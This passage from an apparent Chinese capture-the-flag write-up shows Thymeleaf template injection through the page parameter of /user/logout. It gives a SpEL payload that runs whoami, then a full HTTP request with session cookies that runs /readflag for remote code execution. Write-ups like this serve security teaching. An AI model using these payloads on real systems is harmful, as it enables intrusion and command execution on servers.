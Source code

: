 ![image-20230201120512164](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302011205305.png)

利用时需要先登录一次拿到 cookie, 然后再访问 /user/logout

测试发现题目环境不出网, 无法反弹 shell, 所以改成可回显的 payload

```
__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22whoami%22).getInputStream()).next()%7d__::..
```

![image-20230201121420051](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302011214149.png)

发现并没有回显命令执行结果, 这是因为 `com.admin.interfaces.web.PublicAdvice` 对异常进行了处理, 然后输出了自定义的错误页面 (不过实际上好像并没有显示 thymeleaf 的异常信息)

![image-20230201120938293](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302011209429.png)

将 Accept 头删掉就可以得到回显

![image-20230201121149549](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302011211624.png)

最终 payload

```
GET /user/logout?page=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22/readflag%22).getInputStream()).next()%7d__::.. HTTP/1.1
Host: 1.13.81.130:32835
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36 Edg/109.0.1518.70
Referer: http://1.13.81.130:32835/menu
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: remember-me=cm9vdDoxNjc2MzU5ODcwMjA4OmI0ZWZiZGMyNTI1MWYyM2FkNGQyMGE0YjIwN2U3OTdm; SESSION=cb68e944-997b-4973-a54f-06d8a545d6f3
Connection: close


```

![image-20230201121224604](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302011212679.png)

